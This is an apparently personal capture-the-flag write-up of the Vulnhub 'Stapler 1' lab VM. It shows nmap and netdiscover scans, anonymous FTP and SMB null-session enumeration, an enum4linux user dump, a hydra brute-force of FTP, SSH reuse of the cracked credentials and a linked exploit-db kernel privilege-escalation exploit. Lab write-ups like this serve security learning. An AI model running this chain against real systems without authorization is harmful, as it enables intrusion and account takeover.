 ```yaml
---
layout: post
title: Stapler 1
date: 2019-05-14
author: OutHackThem
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## Stapler 1 vulnhub

After configuring the Stapler VM first step is to find out its IP.We simply do that by running net discover 

```bash
root@kali$: netdisover -r 192.168.2.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                          
                                                                                                                                                                                        
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.2.1     00:50:56:c0:00:08      1      60  VMware, Inc.                                                                                                                         
 192.168.2.2     00:50:56:ed:3a:6d      1      60  VMware, Inc.                                                                                                                         
 192.168.2.7     00:0c:29:03:c5:77      1      60  VMware, Inc.                                                                                                                         
 192.168.2.254   00:50:56:e6:7a:fe      1      60  VMware, Inc.                                                                                                                         
```

So we have our target ip **192.168.2.7**

Run dirsearch and nmap on it and meanwhile browse the site to check if you find anything interesting on the web interface.
Unfortunately there wasn't anything interesting found while browsing the site just one error page . 

Dirsearch also didn't yeild any thing worth checking.

#### Nmap results

```bash
 nmap -sV 192.168.2.7                                                                                                                                                 [20/20]
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-14 06:14 EDT                                                                                                                          
Nmap scan report for 192.168.2.7                                                                                                                                                         
Host is up (0.00032s latency).                                                                                                                                                           
Not shown: 992 filtered ports                                                                                                                                                            
PORT     STATE  SERVICE     VERSION                                                                                                                                                      
20/tcp   closed ftp-data                                                                                                                                                                 
21/tcp   open   ftp         vsftpd 2.0.8 or later                                                                                                                                        
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                                                                                                          
53/tcp   open   domain      dnsmasq 2.75                                                                                                                                                 
80/tcp   open   http        PHP cli server 5.5 or later                                                                                                                                  
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                  
666/tcp  open   doom?                                                                                                                                                                    
3306/tcp open   mysql       MySQL 5.7.12-0ubuntu1  

```

Lets start enumerating.

First I checked ftp anonymous login.

```bash

root@kali:~# ftp 192.168.2.7
Connected to 192.168.2.7.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220 
Name (192.168.2.7:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
226 Transfer complete.
107 bytes received in 0.00 secs (577.3049 kB/s)
ftp> exit
221 Goodbye.
root@kali:~# cat note 
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.
root@kali:~# 

```

Even though the anonymous login was enable we couldn't find anything interesting except 2 names which could possibiliy be used later.

The next thing that strikes me is the netbios service lets enumerate that.For beginners use [this resource](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/).


I am going to use _smbclient_ . For the password I just pressed enter i.e a  Null login.

```bash
root@kali:~# smbclient -L 192.168.2.7
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        kathy           Disk      Fred, What are we doing here?
        tmp             Disk      All temporary files should be stored here
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            RED
root@kali:~# 

```

After going though all the files I only found one wordpress directory but I didn't see any wordpress running on the web server , I probably might have missed it ( I made a mental note to go back and check it) . The second reason for ignoring the wordpress directory is that there was no config file in it.

Next I ran enum4linux

```bash

..[snip]..
S-1-22-1-1000 Unix User\peter (Local User)
S-1-22-1-1001 Unix User\RNunemaker (Local User)
S-1-22-1-1002 Unix User\ETollefson (Local User)
S-1-22-1-1003 Unix User\DSwanger (Local User)
S-1-22-1-1004 Unix User\AParnell (Local User)
S-1-22-1-1005 Unix User\SHayslett (Local User)
S-1-22-1-1006 Unix User\MBassin (Local User)
S-1-22-1-1007 Unix User\JBare (Local User)
S-1-22-1-1008 Unix User\LSolum (Local User)
S-1-22-1-1009 Unix User\IChadwick (Local User)
S-1-22-1-1010 Unix User\MFrei (Local User)
S-1-22-1-1011 Unix User\SStroud (Local User)
S-1-22-1-1012 Unix User\CCeaser (Local User)
S-1-22-1-1013 Unix User\JKanode (Local User)
S-1-22-1-1014 Unix User\CJoo (Local User)
S-1-22-1-1015 Unix User\Eeth (Local User)
S-1-22-1-1016 Unix User\LSolum2 (Local User)
S-1-22-1-1017 Unix User\JLipps (Local User)
S-1-22-1-1018 Unix User\jamie (Local User)
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)

```
These are list of usernames that were enumerated I thought to use this to bruteforce login creds for ftp.

_a little cut magic_

```bash

root@kali:/tmp# cat users.txt | cut -d'\' -f2 | cut -d' ' -f 1
peter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

Running _hydra_

```bash
hydra -U users.txt -P users.txt -t 5 192.168.2.7 ftp

```

![hydra result]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/hydra.png)

Loging in with those creds in to the ftp I land in the home directory of the user and upon listing the files of the user I saw that there were too many files going though all of them would require alot of tile , this made me think that I am on the wrong path most likely I still went ahead and copied the name of the files and did some quick greping on it to find something like ssh or password or similar but no seed. 

After a long pause I tried the same credentials found for ftp on ssh and voila ! (sometimes thats just how ctfs are)

![ssh]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/ssh.png)

I opted for the shortest path to get root 


```bash
$ uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux
```

After searching Local explotis for the specific linux kernal and trying alot of them ( almost gave up on trying to find more exploits ) I finally came accross the following exploit.

_https://www.exploit-db.com/exploits/39772_

Ran the exploit and voila!!

![Root Shel]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/stapler/root-shell.png)